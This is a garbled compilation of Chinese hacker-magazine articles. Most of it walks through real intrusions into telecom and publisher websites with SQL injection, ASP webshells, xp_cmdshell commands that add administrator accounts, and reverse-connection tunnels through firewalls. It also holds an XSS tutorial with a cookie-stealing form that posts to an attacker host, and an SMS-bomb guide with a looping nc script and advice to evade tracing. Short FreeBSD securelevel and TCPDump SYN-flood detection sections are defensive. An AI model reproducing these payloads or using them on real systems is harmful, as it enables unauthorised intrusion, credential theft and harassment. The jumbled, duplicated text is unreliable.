首先来看下首页，我们这儿的移动网站其实挺简陋的，不过有几个不错的服务，例如在线自写短信功能，不过必须要先用手机注册，郁闷哦，他一个书生哪来的那玩意儿，还是来看看它有什么有意思的短信信息，有很多搞笑的哦，猛抬头，你猜我看到了什么？竟然在 IE 的地址栏中看到了 otype.asp?oid=7（图1），啊，这类的地址很可能存在注入漏洞的，如果它存在的话，我就有机会免费发短信息了（口水止不住地往外流哦），在网址后面加个“'”，再加个“and 1=1”“and 1=2”，好幸运呀，测试结果正是我们想要的，一个正常返回，一个出错。拉出我们的宝马（NBSI2），别人都用阿D什么的，我却对 NBSI 情有独钟，开跑吧，居然提示说没有漏洞。不会啊！明明有的嘛！加个特征码（645），再跑，终于出来了！使用的是 MS-SQL 数据库，权限是 DB_OWNER。继续猜解，NBSI 顺利地跑出了后台账号和密码，而且密码还是明文的哦（图2），## 一个人的战争

现在就差后台地址了，NBSI 果然不负众望，就这样搞出了后台登录页面，填上账号和密码，OK！成功登录！连 IP 都不用限制的，什么破后台啊，功能怎么这么少啊，没有什么好利用的。突然发现一个“挑战胜地”，有个用户管理，难道是手机用户……真是的，有 2800 多个用户呢，还有明文的密码（图3），这下可发了！回到那个发短信息的页面，随便找个手机号试了试，果然我爷爷的破手机响了起来（图4），而且速度好快哦；以后可以免费发短信息了，谢谢移动给我们的厚礼。不过事关 N 个手机用户的利益，还是通知管理员吧！移动的测试就此告一段落。

是否网通也做好了呢？我（小菜）今天就也来检测一下。


图4


图1

打开网通北京总公司网站，开始测试。先使用 SuperScan3 进行扫描，一会儿结果出来了，开放端口很标准，是个 Windows 2003 的服务器，溢出就甭想了。现在再来看看他们的网站吧，找了个带参数的地址交给 NBSI 去跑，果然有漏洞，而且是 MS_SQL 数据库，更令人吃惊的是 SA 权限哦，没什么好说的，猜表，结果出来了，是没有加密的密码哦（图5）。


图5


图2

再来看看他们网站的后台地址，继续用 NBSI 来扫，很快就出来了（图6）。在 IE 中填上地址，OK，成功登录（图7）！使用 NBSI 提供的 Commander 工具执行 NET USER、NET START 等命令也完全正常显示。主机也开放了 3389 终端服务，那为什么我们刚才没有扫描到呢？奇怪了，我猜一定是防火墙的原因，弄个 ASP 木马上去看看。怎么写呢？代码里项目有设置选项哦（图8），改了上传限制然后直接上传就可以了！


图6


图3


图7

众所周知，北方的网民大多是网通的用户，南方的大多是电信的用户，搞得我们这些上网的很郁闷。为什么？我们网通的用户上电信的网站慢得要死，电信的用户上网通网站也是慢得要死。网通 CNC 的标识在我们这里随处可见，那么网通的安全性……

在 IE 中填入 ASP 木马的地址，呵呵，我们的小马顺利地诞生了，如图9、图10。传了个 SQLRootkit 执行一下 Systeminfo 和 Query Users，如图11，发现有个用户在线，小心哦，不过这个用户已经登录了好几天了。我推断服务器上没有人操作，用 ASP 木马看看各个盘，没有什么好东西，很轻松地得到那个 CONN.ASP 文件（图12），呵呵！我们现在有了 SA 的权限啦（好高兴哦），我想看看他的桌面（3389），嘿嘿！他不让我连他的 3389，那我就让他连接我！

先加个用户 TsInternetUser 到服务组，提权到管理员权限。我使用的是啊喔的 AngelShell，它其实是一个后门，不过其隐蔽性比较差。它的服务端还有反弹连接的功能，我们就使用它的这个反弹连接工具，先在本地运行 FportClient，上面写 3389，下面写 7788（图13），开始监听。用 WEBSHELL 把转向工具传上去，在 WEBSHELL 的 CMD 模块中执行 ftp.exe 3389 211.*.*.* 7788（211.*.*.* 是我的 ADSL 外网 IP），开始执行，有回显了。现在我们只要使用远程桌面连接器连接本机的 7788 端口，就会被转到远程计算机的 3389 上，这样可以突破很多防火墙哦！不管是软的还是硬的，通杀的！

如果还不成功，我们知道大多数防火墙都允许本机的 Iexplore.exe（IE 浏览器）、Msimn.exe（Outlook Express）、Lsass.exe、Spoolsv.exe、MSTask.exe、Winlogon.exe、Svchost.exe、Services.exe 等程序访问外网。防火墙只检测它们的文件名和路径是否正确，我们可以替换这些文件来突破防火墙。在 SQL Rootkit 中执行：“Ren MSTask.exe MSTaskl.exe”，“Ren Fport.exe MSTask.exe”，再执行“MSTask.exe 211.*.*.* 7788”，这样我们就可以突破了（注：更改文件名必须有管理员权限）！

现在我们用远程桌面连接本机的 7788 端口，在地址中输入“127.0.0.1:7788”连接。成功，看到 2003 的登录界面了，填上我们的 TsInternetUser 用户的密码，成功登录，真不容易哦（图14）。再来看看“Ipconfig /all”，还有个内网哦。来看看内网的情况，好丰富哦，不愧是网通北京总公司，有 N 多个域，那么就有 N*N 多计算机哦！呵呵，如果进一步扩大成果的话，汗啊！我就不玩了，毕竟是网通啊，怕怕哦。打扫好痕迹，给管理员留个 Message 吧！


对于那些虚拟主机用户和菜鸟们：在这里，我想提醒那些网管大人们要时刻关注网络安全，如果没有地方关注，可以买 X 看嘛！到 X 的论坛上也行哦！


看到了吧，这就是我们的移动和网通的安全状况，令人担忧哦。现在还有很多网络空间提供商，有的只安装了虚拟主机管理软件就 OK 了，权限设置得相当吓人，连最起码的杀毒软件和防火墙都不安装。可怕，如果被入侵的话，那损失将是多大啊。

（文字中涉及到的程序 NBSI、SuperScan3、SqlRootKit.asp、FportClient 已经收录于光盘中）

## 从电影网站初尝出站软件至纪实

小鱼修炼中...[S.O.H]

### 一、战争序幕的拉开

最近在学习汇编，朋友推荐了一本不错的书，跑遍了附近的书店都没有找到，于是在 baidu 搜到了该出版社的网站。刚一打开，偶的 KV 网页监控马上就报告“发现病毒已经清除”，吓了一跳。现在国内的网管呀……不说了！幸好偶打过补丁了，要不小命就此玩完了。看了一下这个网站，支持在线购买图书，要是那样的话……进去不就可以免费买书了？反正也没事干，那么就开始吧！


图1

### 二、检查支持环境

既然已经被人挂了马，那就是有人进去过了（废话）。大体观察了一下，它的网站是 ASP + MSSQL 的，没有什么论坛，看来想拿 webshell 不是很容易。还是看看它开了什么端口吧！

> 菜鸟：为什么很多文章中都提到扫描端口，扫描端口到底有什么用呢？  
> 小鱼：通常说的扫描端口，是扫描某台机器上系统中每个网络服务与外部联系必须用到的端口。开放端口越多，说明运行的服务越多。根据端口开放情况可以判断对方开放了哪些服务，从而找对应漏洞或者进行渗透。

手头刚好有流光，那就用它吧。一会儿扫描结果就出来了，如图2，开了 80、110、25、1433、3389 这几个端口。IIS 版本是 5.0，应该是 Win2000 服务器。先放一边 110 和 25，1433 是 MSSQL 服务端口，默认账户 sa 试连失败。再试试 SQL 溢出，看对方 MSSQL 是否没打 SP3 补丁。


图2

具体我可不敢说。正向和反向的溢出都试过都不行，看起来这个漏洞是没有了。剩下的就只有 80 端口了，还是来找脚本注入漏洞吧。


图3


图4


图5

在网站上找到类似“xxx.asp?id=1”这样的页面，随便试一个在后面加单引号看看。一般出现类似“错误 80040e14”这样的提示就说明存在 SQL 注入。再看 ODBC 提示，如果是 SQL Server Driver 一般是 MSSQL 数据库。随后可用注入工具进行扫描，在“注入点扫描”中输入网站 URL，点击检测按钮会自动探测。


图6

好在是 sa 权限，就算不能上传还有别的办法。试了试用 xp_cmdshell 直接加用户、TFTP 上传、写脚本上传，统统失败了！既然这个网站已经被人入侵过了，那么肯定会留下一些 ASP 木马。要是能找到一个小的 ASP 木马，不就可以上传大马了？虽然这个方法比较笨，不过不管黑猫白猫，能捉到老鼠就是好猫！

我继续找……再次来到网站目录下挨个看文件夹，突然看到一个 MDB 的目录，心情开始激动了，颤抖的手点了下去（哈哈！有点夸张）。哇塞！如图11，里面有个 guestbook.asp，还有个 a.asp。看看路径写着 d:\xxxx\home\liuyan\mdb\，各位读者猜到这是什么了么？对了！留言板！

看到留言板有什么好高兴？我们知道了默认数据库路径，而且数据库以 ASP 结尾。如果在留言中插入那句话的 ASP 木马提交，这样就会记录在数据库中，而数据库又是 ASP 结尾的，就跟一个 ASP 木马一样了。访问数据库 web 地址页面出现了乱码，如图12，这样就表示没有做好下载处理。然后马上在留言板中留言，在“主页”还有其他地方都输入了“<%eval request("#")%>”，提交成功。用海阳 C 端连接发现还是不成功（可能是被过滤掉了吧）！郁闷……

于是用迅雷下载了这个 ASP 数据库，改名为 MDB 后打开，找出管理员账号密码，如图13，登录留言板。经过测试发现在管理员页面的公告中可以插入木马，如图14。这回成功拿到 webshell 了（图15）。对了，忘记告诉大家，刚刚跟 guestbook.asp 同一目录下的那个 a.asp，就是别人留的海阳2006 的 ASP 木马！

马上将注入点复制到 HDSI 中进行注入，点击“开始”，如图8，高兴 ing……


图8


图11


图12

连接数据库的用户居然是 SA，这下发财了。一条思路马上浮现在眼前，就是用 HDSI 找到 web 目录，然后通过数据库备份上传 ASP 木马，hoho！点击 HDSI 左边的“列目录”开始寻找网站目录，我找啊找……终于被我找到了，如图9，d:\xxxx\home 下。将一个 ASP 木马的后缀改为 txt，并用 HDSI 上传到 web 目录下，如图10，并提示“上传文件不成功！”。


图9


图13


图14


图10


图15

> 小插曲：访问某个 `.asp` 页面并替换 HTML 代码后，登录页可见但无法正常登录，属于挂马过程中的现象说明。

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell', @cmd output
exec sp_oamethod @cmd, 'run', null, 'net localgroup administrators hack /add', '0', 'true'
```


图19

通过添加用户并提升管理员权限，随后使用新增用户登录 3389，任务完成。


图20

### 三、拿下目标

使用海阳 2006（加密免杀版）进行提权尝试，检查服务与数据库连接点，定位到 `common/inc_const.asp` 并进行编辑。


图16


图17


图21

### 四、小结

主要入侵过程到此结束：强调实践性、流程分析与安全意识提升，并提示文中提及程序与工具已收录于光盘。

完整过程基于 SQL Server 版系统注入漏洞，结合 Superscan、NBSI2、终端服务客户端等工具获取远程主机高权限，同时呼吁站点管理员及时修补漏洞。


图18

通过 SQL 连接器输入账号密码连接成功后，尝试“利用目录 -> 执行 DOS 命令”添加用户测试；若 `xplog70.dll` 受限则改用查询分析器远程连接。

```sql
declare @cmd INT
exec sp_oacreate 'wscript.shell', @cmd output
exec sp_oamethod @cmd, 'run', null, 'net user hack hack /add', '0', 'true'
declare @cmd INT
```

## 利用SQL注入快速入侵主机

花的神明


### 一、SQL 注入原理

SQL Server 版的某信息系统在网上使用很广泛，但其 `news_count.asp?fname=...` 页面存在严重 SQL 注入漏洞。文章说明该系统后台常使用 SQL Server，且数据库账号可能具有较高权限（如 SA）。攻击者可借助注入漏洞进一步执行高权限操作，结合主机开放端口服务（如 3389）实现对主机的进一步控制。

### 二、搜索存在漏洞的网站

通过 Google 搜索特定关键词可定位使用相关新闻系统的网站。文中介绍使用 Superscan3.0 进行端口探测，并提到默认不扫描 3389 时可通过端口列表文件进行补充，随后加载并执行扫描，以寻找开放终端服务的主机。


### 三、全面信息探测

在搜索结果中选择目标并输入 Superscan3.0 扫描地址，先进行 IP 解析（Lookup）后开始扫描（Start）。文中示例表明目标主机开放了终端服务端口，并给出后续在浏览器访问 `http://news.XXX.net.cn/news_count.asp?fname=...` 进行注入检测的流程。

右栏继续说明：若浏览器未显示详细错误，可在 IE 的“Internet 选项”中开启“显示友好 HTTP 错误信息”相关设置。随后使用注入工具（NBSI2）对目标地址进行检测，可获取注入方式、数据库类型、当前用户与权限等信息，示例中指出可能具备 SA 权限，可执行更高权限命令。


### 四、快速侵入主机

入侵者利用 IE 浏览器，仅仅执行两条命令即可通过终端服务快速登录该主机。在 IE 地址栏中首先输入命令“http://news.XXX.net.cn/news_count.asp?fname=20050405033002';exec master..xp_cmdshell 'net user sysadmin password /add'--”，注意不带引号（图5）。


由于利用该 SQL 注入漏洞拥有 SA 权限，这样就能在该主机上建立一个名为 sysadmin 的用户，密码为 password。然后在地址栏中输入命令“http://news.XXX.net.cn/news_count.asp?fname=20050405033002';exec master..xp_cmdshell 'net localgroup administrators sysadmin /add'--”，这样就将该用户加入到管理员组了。运行终端服务客户端连接程序（图6），输入主机地址，点击连接按钮，连接成功后在登录窗口中输入上述用户名和密码，很快就看到对方主机的桌面了（图7）。呵呵，这回可以“为所欲为”了。当然，入侵主机只是为了练习黑客技术，千万不能恶意破坏哦！


### 五、上传ASP木马

即使远程主机没有开放终端服务，该 SQL 注入也有很大价值。在上述利用 NBSI2 分析注入漏洞的基础上，在 NBSI2 中的“已猜解表名”中点击“自动猜解”按钮，可以猜解出数据库中的所有表名，选中其中的 Admin 表；在“已猜解列名”中点击“自动猜解”按钮，可以进一步猜解出 Admin 表中的列名，可进一步取得管理员的 ID、名称和密码等数据。因为其存储算法经常采用 30 位 MD5 算法加密管理员密码，所以可通过替换法进入网站后台。

“admin”的 30 位 MD5 密码为“293740B3817A38ADC0898C1858AA86”。因此，在 IE 地址栏中输入“http://news.XXX.net.cn/news_count.asp?fname=20050405033002';update admin set password='293740B3817A38ADC0898C1858AA86' where id=1;--”（可以根据 NBSI2 的猜解信息改变管理员 ID 号，管理员 ID 默认为 1）。这样，在 IE 地址栏中输入“http://news.XXX.net.cn/admin/admin_login.asp”，输入管理员名称（在 NBSI 猜解结果中可以看到，默认是“Admin”），密码为“admin”，就能进入网站管理后台了。

进入后台管理员页面后，首先点击菜单“新闻”→“增加”，在日志管理窗口中删除系统记录的自己的 IP 等痕迹信息。然后利用某些新闻系统的文件上传漏洞，构造特殊上传路径上传 ASP 木马，以更深入地控制该网站。方法是点击菜单“上传”→“图片上传”，接着选择新闻所在的分类，在添加新闻信息页面（图8）的“附件上传”栏中选择上传目录（一般选择“新闻图片目录”），选择需要上传的 ASP 木马，打开 Winsock Expert 准备抓包，在添加新闻页面中点击“上传”按钮，系统提示文件格式不正确。将 Winsock Expert 的抓包信息复制到文本文件中，在构造特殊路径时应在“upload/newsimg/”后追加“Ok.asp”（Ok.asp 为上传 asp 木马文件），将下一行中的“filename="D:\tool\newmm.asp"”改为“filename="D:\tool\newmm.bmp"”（图9），同时将文件中的“Content-Length”的总长度加上 7（视添加的文件名而定），然后存盘，利用 UltraEdit 等工具将“Ok.asp”的空格改为十六进制 00，完成后利用 NC 上传即可。在浏览器中输入“http://news.XXX.net.cn/upload/newsimg/ok.asp”，就能打开木马页面了。


# 菜鸟的跨站漏洞大法

### 菜鸟的跨站漏洞攻击

最近 SQL 注入的热潮有些褪却，一些程序和网站管理员都对这方面限制得很严格了……不过随之而来的是一些新的攻击方式，跨站脚本攻击就是其中的一个。

当然，像辐射鱼这样看代码找跨站漏洞的高手毕竟是少数，更多的则是像我这样看代码就发晕的菜鸟……下边我就简单地来讲讲跨站脚本漏洞的寻找和利用。

首先来看看原理，服务器端对我们提交的变量没有进行过滤或者过滤不完全，并且直接将这些变量存储在数据库中并直接发送给提交者……这也就是跨站脚本名字的由来。

不过一些地方如主页那里、还有邮箱那里都按照一般格式填写吧，这些变量都有简单的过滤的，这样就省了一些麻烦的哦，如图1。


图1

### 一、目标的寻找

我们首先要能够给服务器提交变量，并且服务器将这些变量显示给访问者……最普遍的是留言本允许游客访问，还有很多 Blog 以及论坛。

记住这么多，还是按关键词找目标吧！直接上 http://www.google.com 搜索“留言本”，一下子出来了 N 多。

### 二、漏洞的搜寻

好了，找到一个我们选定的攻击目标……现在就来看看如何找那些没有过滤的变量。被过滤的关键是“<”和“>”，这在 HTML 字符插入上限制很大。

提交后，这个名字字段被过滤了，如图2。不要急，将名字更正后继续提交……遇到被过滤的变量我们就只好更改了。


图2

现在看看服务器对哪些没有过滤的变量直接显示了，右键查看源文件……搜索我们提交的“<jnc>”，有一个地方哦，如图3！

```html
">
```

### 三、代码的攻击

来自：`<script>alert("")</script>`。


在双引号里面了哦，成为字符串，不起任何作用了，所以我们就要来进行代码拆分，使我们的代码有效。我们先提交的代码以“'”开头的话，就可以把前面的“"”给干掉了。然后就是我们自己的代码了，不过注意这个时候我们的代码还是在 IMG 标签里面的，提交“<script>alert('')</script>”的话我们看到代码还是没有执行，所以这时要想办法来匹配。这里我们先用“>”来解除前面的那个“<”，这样 IMG 标签的范围就结束了，剩下我们的代码完全可以执行了，我们提交“><script>alert()</script>”就可以执行代码 alert() 了。

但是，我们还可以利用其他的东西哦，IMG 标签的属性里有个事件属性，即使它只是过滤“<”和“>”，我们还是可以提交“"”屏蔽掉前面的“"”，然后加上 onload=alert()，我们的语句又执行了！不过要注意的是，它总在我们的后面加个“"”，而如果“<”和“>”被过滤的话我们又不能用“>”来结束 IMG 标签，这会使我们的语句是错误的，所以我们 onload 后面的语句有一些限制，就是必须可以与一个“"”匹配。但是对于我们黑站、做破坏、跨站攻击足够了，我们可以操控该页面的任何元素的属性哦！这里我演示的是将标题改为 Hacked，如图4。效果不错吧！至于如何挂马，location 的值是可以改变的哦，我就不多说了。


如果长度没有限制的话这里我们是可以提交任意代码的，但是如果长度有限制，我们可以用 `<script src=""></script>` 这种来攻击，src 后面是我们自己的文件，放到我们自己的站点里，代码长度就没有限制了！但是我们并不只是只能插入 script 代码，因为是“<”和“>”没有过滤，所以我们可以提交 HTML 字符如 `<iframe src="http://jnc.cnbct.org/mm.html" height="0" width="0"></frame>`，就可以实现隐藏页面的载入。但是更高级的应用是在一些功能比较强大的管理系统或者网站后台中，你可以自己构造表单让管理员提交，或者干脆构造一些特殊的 URL 来达到我们的目的。

可以自己构造表单让管理员提交，或者干脆构造一些特殊的 URL 来达到我们的目的。

### 四、被忽视的隐患

上面说了一些留言本的漏洞寻找与利用，不过这些留言本的跨站脚本漏洞利用起来也没有什么意义，因为毕竟留言本的功能是有限的，如果了解它的后台机制还可以做点事情，但是一般除了挂马和破坏之外（这些都是不好的哦，建议不要学习），也没有什么用处，好像不能用来控制很多东西。

但是一些大型的程序就不一样了，如果得到了管理员的 Cookie，或者能让管理员提交一些表单的话，我们就可以做很多的事情！呵呵，但是一些大的程序都是比较严谨的，如果我们不懂相应的语言就很难找出漏洞。很难是很难，可并不是说就完全没有漏洞哟。我使用的 Blog 就有一个跨站脚本漏洞，在其他类似的程序里也是经常出现的。

在 Blog 首页里有个搜索框，里面可以输入要搜索的字符，然后程序给出结果，很符合我们跨站漏洞产生的条件，到底存不存在呢？我们来开始测试，搜索：`<script>alert("test!")</script>`，看着能不能弹出框框。注意啊，因为程序做了防止 SQL 注入，所以“'”字符会被过滤，所以我们的语句不能出现“'”，但是并不影响我们跨站漏洞的产生！呵呵，看到结果了吧！果然出来了对话框！

如果你的程序没有出来，查看源文件，然后看看它的过滤条件是什么样的，试着绕过吧。切了，漏洞存在，但是怎么利用呢？这个利用起来有困难，也正是这个漏洞被忽视的原因。但是，如果你和其他东西如社会工程学结合好的话，危害还是很大的。我们知道很多重要信息是在 Cookie 中的，可以通过 `<script>alert(document.cookie)</script>`（显示当前 Cookie 信息）语句查看，在这里搜索代码 `<script>alert(document.cookie)</script>` 执行的结果如图5。Cookie 显示的是浏览器在当前站点的信息，所以每个人看到的是不一样的，我们要做的是得到管理员的这个信息，然后就可以伪造自己的 Cookie 或者走暴力破解密码了。要得到管理员的密码信息我们就只有自己构造表单，因为我们这里没有过滤“<”和“>”，支持所有的 HTML 语法。


```html
<form name="test" action="http://127.0.0.1:8080/cookie.asp"><input type=text name="info"></form><script>document.test.info.value=document.cookie;document.test.submit();</script>
```

然后在搜索框里搜索这样的代码，得到链接：`http://127.0.0.1:8080/blog/search.asp?SearchContent=<form+action="http://127.0.0.1:8080/cookie.asp"><input+type=text+name="info"></form><script>document.forms[0].info.value=document.cookie;document.forms[0].submit();</script>&searchMethod=Title&Submit=+Search+`，`http://127.0.0.1:8080/cookie.asp` 是我们已经准备好的 Cookie 文件，其内容如下：

```vb
<%
dim cookie,fso,file
cookie = Request(info)
Const ForReading = 1, ForWriting = 2, ForAppending = 8
%>
```

```vb
' 得到文件
Set fso = Server.CreateObject("Scripting.FileSystemObject")
' 创建对象
path="c:\server\mappath("cookie.txt")"
set file=fso.opentextfile(path, ForAppending, TRUE)
' 取得文件对象
file.Write(cookie)
file.Close
set file = nothing
set fso = nothing
%>
```

如果管理员访问这个链接，就会将他的 Cookie 存储在我们指定的文件里。现在的关键是如何诱骗管理员访问这个链接，这个与社会工程学结合起来就很好了。我们在自己的服务器上构造一个图片文件，里面加入到我们构造的链接 Frame，诱骗别人访问就行了！

当然，这里只是比较通用点的 Cookie 窃取，针对不同的网站结构，我们可以做很多其他的事。如上传图片之后利用表单让管理员为我们备份成木马，让管理员将我们设置为管理员。系统不一样，我们利用的方式也不一样，但是思路是相同的……最后在后面加上 `<script>document.forms[0].submit()</script>`，再加入 iframe 框架即可。


图6

这样的跨站利用起来需要欺骗的手段，你可以将代码写到文本文件里保存为 .jpg 格式让管理员访问！还有动网的 showerror.asp 也是这样的问题……这也是潜在的威胁。

因为我们刚才做的实验是系统默认状态，并没有开启内核级别机制，所以 root 可以做任何操作。下面我们来把内核级别调到 1，再看看 root 还能不能用 chflags 来修改文件属性了。

### 内核级别修改

首先我们编辑 `/etc/defaults/rc.conf` 文件，这个文件是系统启动时自动加载的控制文件，我们需要修改下面两行：

```conf
kern_securelevel_enable="YES"   # 把默认的 NO 改成 YES
kern_securelevel="1"            # 把安全级别设成 1
```

现在看一下修改后的效果：

```bash
root@tmp# cat /etc/defaults/rc.conf | grep kern_securelevel
kern_securelevel_enable="YES"   # kernel security level (see init(8))
kern_securelevel="1"            # range -1..3
```

好了，下面我们就可以保存退出了……现在我们有两种方法可以将修改后的内核安全级别生效，一个是重启机器，另一个就是用命令：

```bash
root@tmp# sysctl -w kern.securelevel=1
kern.securelevel: -1 -> 1
```

这样我们就可以把当前的 -1 安全级别变成 1 了。好了，现在内核安全级别已经设置成 1 了，我们用 root 来看看现在还能不能取消 schg 属性了。

```bash
root@tmp# ls -o aa
-rw-r--r--  root wheel schg ... aa
root@tmp# chflags noschg aa
chflags: aa: Operation not permitted
root@tmp# rm -rf aa
rm: aa: Operation not permitted
```

### 三、后话

如果黑客也知道 FreeBSD 的安全级别操作，他完全可以进到 rc.conf 里把内核安全级别设置成 NONE。因为他不能从当前高安全级别降低，所以他只能重启机器……解决的方法仍然有，我们可以将 rc.conf 文件也加上 schg 属性，这样黑客即使拿到了 root 也不能对 rc.conf 修改了。需要恢复时，可重启到单用户模式进行修改。

# 黑客研究院


# 短信炸弹

邓鹏川

现在网上到处都有一些手机短信炸弹的下载，下载下来填写上手机号码与攻击次数就可以直接进行攻击，让对方手机收到很多的垃圾短信。现在先来看一下这类软件是如何实现这个功能。

### 原理

首先要给大家说明的是，现在国内手机通信运营商主要是联通与移动，就是 ISP（Internet Service Provider）。中国联通、移动与一些 SP（Service Provider）合作，分配一些接入号码给 SP。SP 有一些网站订购节目的接口，这个订购接口就是达到手机短信炸弹的关键之处。通过不断调用这类订购接口，你的手机就会收到一些确认信息、二次确认码之类的信息。这样重复不断地发送就达到了短信炸弹的要求。

**下面先讲一下如何实现短信炸弹：**在网上找到一个有网站订购的短信接口，写上你的手机号码，如图1所示。然后点确认按钮，这里你的手机就会收到一条短信确认码，这时不用关心短信的内容。如果你一直重复不断收到该条消息，短信炸弹就这样实现了。


### 实现

打开你的 sniffer pro 吧，选择 Capture 菜单，然后选择 start，进行数据抓包。这里你也可以启动 Sniffer pro 后按 F10，直接启动这一功能，数据抓包如图2。

```http
POST /xxx/xxx.asp HTTP/1.1
Accept: image/gif,image/x-bitmap,image/jpeg,image/pjpeg
application/x-shockwave-flash,application/vnd.ms-powerpoint
application/vnd.ms-excel,application/msword,*/*
Referer:http://xxx.xxx.com/sms/xxx.asp
Accept-Language: zh-cn
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip, deflate
```

```http
User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0; .NET CLR 1.1.4322)
Host: sms.stockstar.com
Content-Length: 69
Connection: Keep-Alive
Cache-Control: no-cache
Cookie: ASPSESSIONIDQCCRGCSSD=...
MobileID=手机号&continue=%CE%D2%D2%AA%D7%A2%B2%E1&raction=regist
```


一个完整的 HTTP 头的内容就这样展现出来了，其中的每一项，这里就不能解释了，如果要想详细了解的话，建议去看一下相关资料。我们最关心的就是 `MobileID=手机号码&continue=%CE%D2%D2%AA%D7%A2%B2%E1&raction=regist`，这里的手机号码你写上想要攻击的号码就行了。

那么，用什么方法提交出去呢？有两种方法：
- 一是用 NC 实现提交出去；
- 二是编程实现，这里讲解用 ASP 来实现的方法。

以上两种方法下面分别给予讲解，第一种方法适合一般读者，第二种方法适合有一定编程经验的用户。

### 一、用 NC 实现提交出去

首先，把发送出去的内容保存为一个 TXT 文件，取名为：sniffer.txt，即前面的“POST /xxx/x……&raction=regist”这段代码。然后用 nslookup 取得对方网站的 IP 地址，再用 NC 提交数据出去，执行的结果如图示。这时你的手机就会收到短信了，即一些提示订购的信息。如果重复这个过程，就实现了短信炸弹。

```bat
:send
nc IP地址 80<sniffer.txt
goto send
```

这样就会无限次发送下去了，用 NC 制作手机短信炸弹就实现了。


图3


图4


图5

```asp
url="http://xxx.xxxx.com/sms/xxx.asp"
xml.Open "POST", url, False
xml.setRequestHeader "Content-Length", len(mobileid)
xml.setRequestHeader "CONTENT-TYPE", "application/x-www-form-urlencoded"
xml.setRequestHeader "Referer", "http://xxx.xxxx.com/sms/xxx.asp"
xml.setRequestHeader "Cookie", "ASPSESSIONID..."
xml.send MobileID
getHTTPPage = bytes2BSTR(xml.responseBody)
Response.Write gethttppage
Set xml = Nothing
```

这样，用 ASP 写的一个功能模块就出来了，可以循环调用，也可以限制发送次数、限制攻击号码等。

其实，网上公布的那些短信炸弹程序的编程原理，跟这个都是一样的道理的。

- 1. 对 POST 出去的数据，可以用 Sniffer 进行抓包测试。
- 2. 用 ASP 把 POST 得到的结果显示出来就行了。

用到的工具有 sniffer pro、WsockExpert。以上两种实现方式，都会在对方网站被记录 IP 访问地址，因此如果是第一种，就是记录你本机 IP 或者你的出口 IP；第二种方式记录的是 Web 服务器的 IP 地址，请大家做好反跟踪的一些后期工作。

### 二、用 ASP 编程实现

这里需要对 ASP 有点基础知识。用 ASP 编程实现的原理就是利用 HTTPXML 把 HTTP 的数据发送到目的地。由于是编程实现，可以控制次数，也可以按自己的要求定制一些功能。

核心代码如下：

```asp
' 利用ASP的HTTPXML进行发送
MobileID='MobileID='&手机号...
Set xml = Server.CreateObject("Microsoft.XMLHTTP")
...
```

### 防范

攻与防永远都是对立的话题，这里给大家介绍了攻击的方法。当然也要给大家讲一下防范的方法，整体流程如图6所示。这些手机用户是控制不到消息来源的，能控制这方面攻击的就是运营商与 SP。你如果受到这样的攻击的话：

- 1. 打电话到移动或联通，请求清空短信服务中心的队列（此时使用对方发送的消息也可能暂时收不到）。
- 2. SP 改动网站接口，加上图形验证码，控制这类事件发生。

## TCPDump-构建日志及应用

彭文波

据英国《观察家报》报道，在联合国安理会就伊拉克战争进行关键表决之前，英国情报机构曾协助美国，窃听安理会成员国代表团的电话，其中的受害者就包括中国代表团。这绝不是危言耸听。目前，全世界窃听电话通信的专职人员约 35000 人，这些窃听电话自动化程度很高，只要目标电话开始使用，监听设备立即启动实施窃听，呼叫话机的号码、通信的日期和时间也同时被自动记录下来。其实，在计算机网络中，利用嗅探器也可以达到同样的效果，它可以窃听计算机程序在网络上发送和接收到的数据。

用过 Windows 平台上 sniffer 工具的朋友都知道，在共享式的局域网中，采用 sniffer 工具简直可以对网络中的所有流量一览无余。因此，对于网络管理员来说，使用嗅探器可以随时掌握网络的实际情况；在网络性能急剧下降时，可以通过 sniffer 工具来分析原因，找出造成网络阻塞的来源；对于网络程序员来说，可以通过 sniffer 工具来调试程序，找出发生问题的原因。站在另外一个角度，对于需要了解某个网络信息的攻击者来说，嗅探器还可能成为他的一个攻击法宝。下面从两方面来说明。

### 一、嗅探器和 TCPDump 日志分析

那么，对于钟爱 Linux 的网络安全爱好者来说，能找到这样一款强大的 Linux 下的嗅探器吗？答案是肯定的。TCPDump 这是一个免费的网络分析工具，它还提供了源代码并公开了接口，具备很强的可扩展性。

在 Linux 下，TCPDump 的安装十分简单，通过 rpm 命令可以直接安装。安装时以超级用户登录，参考命令如：`#rpm -ivh tcpdump.rpm`。一般直接执行 `tcpdump` 即可开始监听网络接口上的流量。


图1

从上面的输出结果来看，TCPDump 的基本输出格式具有一定规律。下面以一个比较典型的日志实例进行详细分析。

```
11:53:49.869667 eth0 < 192.168.10.128.12242 > 192.168.10.255.www: S 6373380:6373380(0) win8192 <mss 1460,nop,nop,sackOK> (DF)
```

- 1. 第一个是时间：`11:53:49.869667`
- 2. 第二个是接口：`eth0`
- 3. 第三个是源地址与源端口：`192.168.10.128.12242`
- 4. 第四个是目标地址与目标端口：`192.168.10.255.www`
- 5. 第五个是标志位：`S`
- 6. 第六个是序列号：`6373380:6373380(0)`
- 7. 第七个是窗口大小：`win8192`
- 8. 第八个是 TCP 选项：`<mss 1460,nop,nop,sackOK>`
- 9. 第九个是：`(DF)`（不分片）

## 2 利用 TCPDump 检测 SYN Flood 攻击

文中介绍了拒绝服务攻击（如 SYN-Flood、teardrop 等）的背景，并说明可利用 TCPDump 收集大量网络数据包，再进行分析与规则挖掘，用于实时检测异常流量。

- （1）对 TCPDump 原始格式数据进行预处理，转换为连接记录并保留关键字段。
- （2）将整理后的连接记录装入 SQL Server 数据库，清理非 SYN 记录，并按目标主机、目标端口、时间等字段排序。
- （3）确定时间窗口，反复调整窗口大小并进行序列挖掘，以识别与拒绝服务攻击相关的规则。


图2

- （4）DoS 序列规则。经过反复挖掘，最后确定规则。例如：在 2 秒钟时间内，1000 条 SYN Flood 会导致某一系统的 WWW 端口产生拒绝服务攻击。
- （5）把上述获得的 DoS 序列规则应用于实时网络数据流中进行序列分析，以判断是否检测到了拒绝服务攻击。如果不符合则认为正常，否则采取如下措施以挽救其拥塞队列。

类似的应用还有很多。对于 IP 网络防御系统管理员来说，在排查网络中的故障时，用好 TCPDump 这样的抓包分析软件，配合其他管理工具，就可以起到事半功倍的效果。

# 侦探系统信息报告工具——Winrep 缓冲溢出漏洞

爱无言

